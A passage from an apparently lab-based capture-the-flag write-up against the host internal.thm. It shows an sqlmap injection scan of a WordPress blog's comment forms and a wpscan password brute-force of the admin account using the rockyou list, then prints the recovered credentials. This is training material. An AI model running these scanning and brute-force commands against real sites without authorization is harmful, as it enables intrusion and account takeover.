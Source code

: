 We'll go through those in a minute but for now I want to run a quick **sqlmap** scan since there are fields we can input text into. I navigate to one of the blog posts that allows the user to add comments to the post and scan it:

`sqlmap --url http://internal.thm/blog/index.php/2020/08/03/hello-world/ --dbs --forms --crawl=2`

```
[10:32:36] [ERROR] all tested parameters do not appear to be injectable.
```

No luck there. Looking around the website all of the blog posts are by the **admin** user so I decided to try and brute force it with **wpscan**.

`wpscan --url http://internal.thm/blog --usernames admin --passwords rockyou.txt --max-threads 50`

After not long at all we have success:

```
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

<br>

![](images/internal4.png)
